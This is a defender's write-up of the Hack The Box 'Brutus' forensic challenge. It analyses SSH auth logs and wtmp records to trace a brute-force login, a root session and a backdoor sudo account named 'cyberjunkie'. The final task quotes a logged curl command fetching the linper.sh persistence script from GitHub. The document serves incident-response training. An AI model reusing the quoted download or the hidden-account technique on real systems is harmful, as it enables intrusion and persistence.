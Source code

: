 https://app.hackthebox.com/sherlocks/Brutus

# task 1: find the attacker's IP

I notice in the logs many failed requests coming from 65.2.161.68, so I deduce that this IP is attempting a brute-force attack on the service.

# task 2: find the compromised account

in lines 281 to 283:

```
Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar 6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
```

I observe a successful login from the same IP that was performing the brute-force, targeting the root account.

# task 3: login timestamp (wtmp)

to read the file, I use utmpdump:

```
utmpdump wtmp 
Utmp dump of wtmp
[2] [00000] [~~  ] [reboot  ] [~           ] [6.2.0-1017-aws      ] [0.0.0.0        ] [2024-01-25T11:12:17,804944+00:00]
[5] [00601] [tyS0] [        ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-01-25T11:12:31,072401+00:00]
[6] [00601] [tyS0] [LOGIN   ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-01-25T11:12:31,072401+00:00]
[5] [00618] [tty1] [        ] [tty1        ] [                    ] [0.0.0.0        ] [2024-01-25T11:12:31,080342+00:00]
[6] [00618] [tty1] [LOGIN   ] [tty1        ] [                    ] [0.0.0.0        ] [2024-01-25T11:12:31,080342+00:00]
[1] [00053] [~~  ] [runlevel] [~           ] [6.2.0-1017-aws      ] [0.0.0.0        ] [2024-01-25T11:12:33,792454+00:00]
[7] [01284] [ts/0] [ubuntu  ] [pts/0       ] [203.101.190.9       ] [203.101.190.9  ] [2024-01-25T11:13:58,354674+00:00]
[8] [01284] [    ] [        ] [pts/0       ] [                    ] [0.0.0.0        ] [2024-01-25T11:15:12,956114+00:00]
[7] [01483] [ts/0] [root    ] [pts/0       ] [203.101.190.9       ] [203.101.190.9  ] [2024-01-25T11:15:40,806926+00:00]
[8] [01404] [    ] [        ] [pts/0       ] [                    ] [0.0.0.0        ] [2024-01-25T12:34:34,949753+00:00]
[7] [836798] [ts/0] [root    ] [pts/0       ] [203.101.190.9       ] [203.101.190.9  ] [2024-02-11T10:33:49,408334+00:00]
[5] [838568] [tyS0] [        ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-02-11T10:39:02,172417+00:00]
[6] [838568] [tyS0] [LOGIN   ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-02-11T10:39:02,172417+00:00]
[7] [838962] [ts/1] [root    ] [pts/1       ] [203.101.190.9       ] [203.101.190.9  ] [2024-02-11T10:41:11,700107+00:00]
[8] [838896] [    ] [        ] [pts/1       ] [                    ] [0.0.0.0        ] [2024-02-11T10:41:46,272984+00:00]
[7] [842171] [ts/1] [root    ] [pts/1       ] [203.101.190.9       ] [203.101.190.9  ] [2024-02-11T10:54:27,775434+00:00]
[8] [842073] [    ] [        ] [pts/1       ] [                    ] [0.0.0.0        ] [2024-02-11T11:08:04,769514+00:00]
[8] [836694] [    ] [        ] [pts/0       ] [                    ] [0.0.0.0        ] [2024-02-11T11:08:04,769963+00:00]
[1] [00000] [~~  ] [shutdown] [~           ] [6.2.0-1017-aws      ] [0.0.0.0        ] [2024-02-11T11:09:18,000731+00:00]
[2] [00000] [~~  ] [reboot  ] [~           ] [6.2.0-1018-aws      ] [0.0.0.0        ] [2024-03-06T06:17:15,744575+00:00]
[5] [00464] [tyS0] [        ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,354378+00:00]
[6] [00464] [tyS0] [LOGIN   ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,354378+00:00]
[5] [00505] [tty1] [        ] [tty1        ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,469940+00:00]
[6] [00505] [tty1] [LOGIN   ] [tty1        ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,469940+00:00]
[1] [00053] [~~  ] [runlevel] [~           ] [6.2.0-1018-aws      ] [0.0.0.0        ] [2024-03-06T06:17:29,538024+00:00]
[7] [01583] [ts/0] [root    ] [pts/0       ] [203.101.190.9       ] [203.101.190.9  ] [2024-03-06T06:19:55,151913+00:00]
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
[8] [02491] [    ] [        ] [pts/1       ] [                    ] [0.0.0.0        ] [2024-03-06T06:37:24,590579+00:00]
[7] [02667] [ts/1] [cyberjunkie] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:37:35,475575+00:00]
```

And I found this one :

`[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]`

which shows a `[7]` type (login), PID `2549`, remote terminal `pts/1`, from our attacker’s IP `65.2.161.68` on `2024-03-06 at 06:32:45`.

# task 4: ssh session

The brute-force login shows:

`Mar 6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.`

**BUT** the attacker used a brute-force script that opened and closed the session immediately. I want the session opened manually with the discovered password:

```
Mar 6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar 6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar 6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

And I find session 37!

# task 5/6: privilege escalation

I notice a user account being added directly after the attacker's login:

```
Mar 6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar 6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar 6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar 6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar 6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar 6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar 6 06:35:01 ip-172-31-35-28 CRON[2614]: pam_unix(cron:session): session opened for user root(uid=0) by (uid=0)
Mar 6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar 6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

this gives them privilege escalation to have a persistent backup account in case the root password changes.

the account name is **cyberjunkie**
**MITRE ATT\&CK sub-technique ID**: T1136.001 – *Create Account: Local Account*

# task 7: root session end

The attacker disconnected here:

```
Mar 6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar 6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar 6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
```

the exact date is `2024-03-06 06:37:24`

# task 8: malicious download

I find the following line:

`Mar 6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

Which corresponds to the download of a malicious script!